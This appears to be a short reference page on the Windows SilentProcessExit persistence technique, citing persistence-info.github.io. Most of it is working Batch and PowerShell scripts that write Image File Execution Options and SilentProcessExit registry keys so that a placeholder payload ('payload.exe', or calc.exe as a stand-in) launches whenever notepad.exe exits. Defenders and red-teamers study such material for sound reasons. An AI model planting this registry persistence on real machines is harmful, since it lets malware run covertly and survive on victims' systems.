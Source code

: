 # SilentProcessExit

## Scripting

### Batch

```
@echo off
set monitorApp=notepad.exe
set monitor=C:\path\to\payload.exe

reg.exe add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "%monitor%"
```

### PowerShell

```powershell
$monitoredApp = "notepad.exe"
$monitor = "powershell -c calc.exe #"

New-Item -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$monitoredApp" | Out-Null
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$monitoredApp" -Name GlobalFlag -Value 512

New-Item -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\$monitoredApp" | Out-Null
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\$monitoredApp" -Name ReportingMode -Value 1
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\$monitoredApp" -Name MonitorProcess -Value $monitor
```

---
## References

### Persistence Info

- [Persistence Info: Monitoring Silent Process Exit](https://persistence-info.github.io/Data/silentexitmonitor.html)